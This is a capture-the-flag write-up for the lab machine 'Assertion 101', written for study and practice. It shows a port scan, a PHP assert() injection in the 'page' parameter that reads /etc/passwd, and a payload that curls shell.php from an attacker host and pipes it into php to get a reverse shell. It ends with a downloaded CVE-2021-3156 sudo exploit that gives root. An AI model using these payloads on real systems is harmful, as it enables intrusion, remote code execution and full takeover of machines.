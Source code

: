 ```yaml
---
title: Assersion 101
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, RCE, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Assersion101/Untitled.png
  alt: Assertion 101 Machine 🖥️ 
---
```



## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Tue Jul 18 21:13:55 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.187.94
Warning: 192.168.187.94 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.187.94
Host is up (0.17s latency).
Not shown: 65466 closed tcp ports (reset), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%201.png)

Now while surfing I tried LFI on `page` parameter →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%202.png)

Now lets try some other type of payloads ⤵️

[LFI via PHP`s ‘assert’](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%203.png)

payload used like This →

```bash
http://192.168.152.94/index.php?page=%27%20and%20die(show_source(%27/etc/passwd%27))%20or%20%27
```

In response I got this →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%204.png)

Now lets use another payload for Remote Command Execution (RCE) → 

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%205.png)

Lets try reverse shell code →

```bash
http://192.168.152.94/index.php?page=' and die(system("curl http://192.168.45.152/shell.php|php")) or '
```

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...

connect to [192.168.45.152] from (UNKNOWN) [192.168.152.94] 54592
Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:41:39 up 50 min,  0 users,  load average: 0.00, 0.00, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ $ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@assertion:/$ whoami
whoami
www-data
www-data@assertion:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@assertion:/$
```

Now I checked the sudo version and then I exploited the vulnerability of **[CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156#cve-2021-3156-sudo-baron-samedit)**

```bash
www-data@assertion:/home$ sudo -V
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
www-data@assertion:/home$ cd /tmp
cd /tmp
www-data@assertion:/tmp$ wget http://192.168.45.152/exploit_nss.py
wget http://192.168.45.152/exploit_nss.py
--2023-10-09 17:46:10--  http://192.168.45.152/exploit_nss.py
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit_nss.py'

exploit_nss.py        0%[                    ]       0  --.-KB/exploit_nss.py      100%[===================>]   7.99K  --.-KB/s    in 0.003s  

2023-10-09 17:46:11 (2.95 MB/s) - 'exploit_nss.py' saved [8179/8179]

www-data@assertion:/tmp$ 
www-data@assertion:/tmp$ chmod +x exploit_nss.py	
chmod +x exploit_nss.py 
www-data@assertion:/tmp$ ls -al
ls -al
total 16
drwxrwxrwt  2 root     root     4096 Oct  9 17:46 .
drwxr-xr-x 26 root     root     4096 Sep 14  2020 ..
-rwxrwxrwx  1 www-data www-data 8179 Jun 22 10:25 exploit_nss.py
prw-r--r--  1 www-data www-data    0 Oct  9 17:24 f
www-data@assertion:/tmp$ python3 exploit_nss.py
python3 exploit_nss.py
# /bin/bash -i
/bin/bash -i
root@assertion:/tmp# whoami
whoami
root
root@assertion:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@assertion:/tmp# cd /root
cd /root
root@assertion:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Oct  9 16:54 .
drwxr-xr-x 26 root root 4096 Sep 14  2020 ..
lrwxrwxrwx  1 root root    9 Jan 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jan 16  2020 .cache
drwx------  3 root root 4096 Jan 16  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jan 16  2020 .ssh
-rw-------  1 root root    0 Sep  8  2020 .viminfo
-rw-r--r--  1 root root   33 Oct  9 16:54 proof.txt
-rw-r--r--  1 root root   32 Sep  8  2020 root.txt
root@assertion:/root# cat root.txt
cat root.txt
Your flag is in another file...
root@assertion:/root# cat proof.txt
cat proof.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/root# cd /
root@assertion:/# find / -name local.txt 2>/dev/null
find / -name local.txt 2>/dev/null
/var/www/local.txt
root@assertion:/# cat /var/www/local.txt
cat /var/www/local.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.152.94  netmask 255.255.255.0  broadcast 192.168.152.255
        inet6 fe80::250:56ff:feba:8eed  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:ba:8e:ed  txqueuelen 1000  (Ethernet)
        RX packets 1903  bytes 201740 (201.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2063  bytes 2686114 (2.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 786  bytes 61626 (61.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 786  bytes 61626 (61.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@assertion:/#
```

I am root now I can access all the flags !!